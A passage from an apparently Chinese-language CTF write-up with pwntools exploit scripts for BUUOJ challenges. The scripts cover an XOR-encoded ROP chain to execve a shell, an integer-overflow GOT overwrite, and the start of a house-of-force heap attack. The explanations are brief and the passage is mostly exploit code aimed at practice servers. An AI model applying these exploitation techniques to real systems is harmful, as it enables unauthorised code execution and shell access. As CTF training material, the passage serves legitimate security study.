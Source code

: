 ```python
payload += p64(0) * 2
'''
payload += p64(poprax ^ 0x6666666666666666)
payload += p64(0x3b ^ 0x6666666666666666)
payload += p64(poprdi ^ 0x6666666666666666)
payload += p64(bss ^ 0x6666666666666666)
payload += p64(poprsi ^ 0x6666666666666666)
payload += p64((bss + 8) ^ 0x6666666666666666)
payload += p64(poprdx ^ 0x6666666666666666)
payload += p64(0 ^ 0x6666666666666666)
payload += p64(syscall ^ 0x6666666666666666)

payload = payload.ljust(0x200, b'\x00')

# gdb.attach(io)
# time.sleep(3)
io.sendafter(b'Please enter your Password: ', payload)
io.sendline(b'/bin/sh\x00' + p64(bss + 5) + p64(0))
io.interactive()
```

# buu104-wustctf2020_name_your_dog
整数溢出，往scanf.got里面写后门函数地址。

```python
from pwn import *

elf = ELF('./wustctf2020_name_your_dog')
# io = process('wustctf2020_name_your_dog')
io = remote('node5.buuoj.cn', 27877)

io.sendlineafter(b'Name for which?\n>', b'-7')
io.sendlineafter(b'Give your name plz: ', packing.p32(elf.symbols['shell']))
io.interactive()
```

# buu105-gyctf_2020_force
从题目就可以看出考的是house of force，由于分配的chunk大小无限制，可分配很大的chunk，这类chunk会通过mmap分配，且会紧靠libc下面分配，由此可获得libc地址。然后在堆分配一个小chunk获取top chunk大小，同时0x50溢出修改top chunk的size，分配超大chunk让top chunk到`__malloc_hook`，这样就能够在`__malloc_hook`分配，考虑到内存对齐问题，还需要跳到`__realloc_hook`进行处理。

```python
import re
from pwn import *
import os


def get_process_pid(name):
    pid_list = []
    processes = os.popen('ps -ef | grep %s' % name)
    process_info = processes.read()
    for i in process_info.split('\n')[:-1]:
        j = re.split(' +', i)
        if j[7] == name:
            pid_list.append(int(j[1]))
    return pid_list[0]


elf = ELF('./gyctf_2020_force')
libc = ELF('/root/git_clones/glibc_run/glibc_versions/2.23/x64/lib/libc.so.6')
# io = process(['glibc_run', '2.23', './gyctf_2020_force'])
io = remote('node5.buuoj.cn', 29751)
```